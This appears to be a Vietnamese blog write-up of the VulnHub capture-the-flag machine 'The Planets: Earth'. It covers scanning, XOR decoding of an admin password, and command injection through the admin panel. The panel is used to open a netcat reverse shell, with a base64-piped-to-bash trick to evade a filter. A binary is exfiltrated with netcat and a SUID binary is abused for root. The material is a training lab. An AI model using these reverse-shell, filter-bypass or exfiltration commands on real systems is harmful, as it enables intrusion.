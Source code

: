 ```yaml
---
title: "The Planets: Earth Writeup - VulnHub"
date: "2023-07-23 17:18:03"
categories:
  - CTF Writeup
  - VulnHub
tags:
  - The Planets
  - hacking
---
```


Download [THE PLANETS: EARTH](https://www.vulnhub.com/entry/the-planets-earth,755/){:target="\_blank"}

**Level**: Easy

## Scanning

Tiến hành scan ip máy chủ mục tiêu

```shell
sudo netdiscover -i eth0 -r 10.0.2.0/24
```

![scan ip](/assets/img/posts/earth-walkthrough/scan-ip.png)

Target IP là `10.0.2.6`. Tiến hành scan all ports:

```shell
nmap -sC -sV 10.0.2.6 -p- -A -T4
```


![scan ports](/assets/img/posts/earth-walkthrough/scan-ports.png)

Chúng ta có thể thấy có 3 port đang mở: 22, 80 và 443. Ngoài ra, phát hiện thêm có domain name `earth.local` và subdomain `terratest.earth.local`.

Truy cập ip máy chủ web cổng 80 và 443 thấy không có gì đặc biệt. Nhưng từ ssl certificate ta khai được ở trên, có thể thêm 2 entries này vào `/etc/hosts` và truy cập.

```shell
echo "10.0.2.6 earth.local" >> /etc/hosts && echo "10.0.2.6 terratest.earth.local" >> /etc/hosts
```

![add hostname](/assets/img/posts/earth-walkthrough/add-hostname.png)

![earth.local](/assets/img/posts/earth-walkthrough/earth.local.png)

![terratest.earth.local](/assets/img/posts/earth-walkthrough/terratest.earth.local.png)

## Enumeration

Ở trang `earth.local` phía dưới có 4 dòng message đã được encrypted, liệu có gì ẩn ý trong đây. Vẫn chưa tìm thấy đủ thông tin nên ta tiếp tục khai thác, tiến hành enumerate directories ở cả 2 domain.

![terratest enumeration](/assets/img/posts/earth-walkthrough/terratest-enum.png)

![earth enumeration](/assets/img/posts/earth-walkthrough/earth-enum.PNG)

Ta tìm được trang admin login và 1 trang robots.txt. Truy cập _https://terratest.earth.local/robots.txt_ xem thu thập được manh mối nào không.

![robots.txt](/assets/img/posts/earth-walkthrough/robots.txt.png)

Enum các extension cho file này, cuối cùng nhận được response 200 từ `testingnotes.txt`.

![testingnotes](/assets/img/posts/earth-walkthrough/testingnotes.PNG)

Từ notes trên ta có thể xác định được rằng thuật toán mã hóa message sử dụng XOR, và nội dung file `testdata.txt` có thể là key. Ngoài ra, xác định được username của admin là `terra`.

![testdata](/assets/img/posts/earth-walkthrough/testdata.PNG)

Ném từng cái encrypted message vào XOR với key (nội dung file `testdata.txt` trên).

![decode message](/assets/img/posts/earth-walkthrough/decode-message.PNG)

=> Thu được 1 chuỗi lặp lại "`earthclimatechangebad4humans`". Dùng chuỗi này làm password cho user `terra` để đăng nhập trang /admin

![admin](/assets/img/posts/earth-walkthrough/admin.PNG)

Login admin thành công! Tại đây có thể chạy câu lệnh từ input và click `Run command` sẽ trả về kết quả.

```shell
find / -name 'user_flag.txt' -exec cat {} \;
```

![user_flag.txt](/assets/img/posts/earth-walkthrough/user_flag.PNG)

User Flag: [user_flag_3353b67d6437f07ba7d34afd7d2fc27d]

## RCE

Tạo 1 listener trên port 9005

```shell
nc -nlvp 9005
```

Thử spawn reverse shell `nc 10.0.2.15 9005 -e /bin/bash`.

![remote forbidden](/assets/img/posts/earth-walkthrough/remote-forbidden.PNG)

Bị forbidden ư? Làm thế nào để bypass đây. Chợt nhớ ra ta có thể bypass kí tự đặc biệt bằng cách encode base64 câu lệnh, decode và đồng thời đưa nó vào shell thực thi thông qua pipeline `|`.

```shell
┌──(kali㉿kali)-[~]
└─$ echo "nc 10.0.2.15 9005 -e /bin/bash" | base64
bmMgMTAuMC4yLjE1IDkwMDUgLWUgL2Jpbi9iYXNoCg==
```

Spawn Reverse Shell

```shell
echo "bmMgMTAuMC4yLjE1IDkwMDUgLWUgL2Jpbi9iYXNoCg==" | base64 -d | bash
```

![remote forbidden](/assets/img/posts/earth-walkthrough/RCE.PNG)

RCE thành công! Nhiệm vụ tiếp theo là leo root và tìm root flag.

## Privilege Escalation

`apache` là user hiện tại, mục tiêu của chúng ta là leo lên quyền cao nhất - root.

Đầu tiên, liệt kê tất cả các file có suid

```shell
find / -perm -u=s 2>/dev/null
```

![find-suid-perm](/assets/img/posts/earth-walkthrough/find-suid-perm.png)

Check thấy 1 file lạ `reset_root`, nhìn cũng có vẻ hấp dẫn

Phân tích thấy đây là 1 file thực thi và có chức năng reset password cho `root`.

![analyze-reset-root](/assets/img/posts/earth-walkthrough/analyze-reset-root.PNG)

Chạy thử và bị failed

![run-reset-root](/assets/img/posts/earth-walkthrough/run-reset-root.PNG)

Để phân tích được rõ ràng hơn, ta sẽ sử dụng `ltrace`.

Nhưng trước tiên phải truyền file `reset_root` về máy local để phân tích. Searching 1 lúc thấy `netcat` có thể làm được điều này. Đọc thêm [tại đây](https://nakkaya.com/2009/04/15/using-netcat-for-file-transfers/){:target="\_blank"}

Tại máy local

```shell
nc -l -p 1234 -q 1 > reset_root < /dev/null
```

Tại máy gửi

```shell
cat /usr/bin/reset_root | netcat 10.0.2.15 1234
```

Sau khi transfer thành công, thêm quyền thực thi và dùng `ltrace` phân tích ta thu được:

![ltrace-reset-root](/assets/img/posts/earth-walkthrough/ltrace-reset-root.png)

Hóa ra là máy chủ chỉ kiểm tra các file mình khoanh đỏ ở trên có tồn tại hay không thôi, nếu tồn tại, các câu lệnh phía dưới sẽ được thực thi, và mật khẩu root sẽ được reset về `Earth`.

Giờ quay lại máy chủ mục tiêu và tạo các file đó, sau đó chạy lại file thực thi.

![reset-root-successfully](/assets/img/posts/earth-walkthrough/reset-root-successfully.PNG)

Quào, `su root` với password là `Earth` và get root flag thoaiii

![root-flag](/assets/img/posts/earth-walkthrough/root-flag.PNG)

Root Flag: [root_flag_b0da9554d29db2117b02aa8b66ec492e]
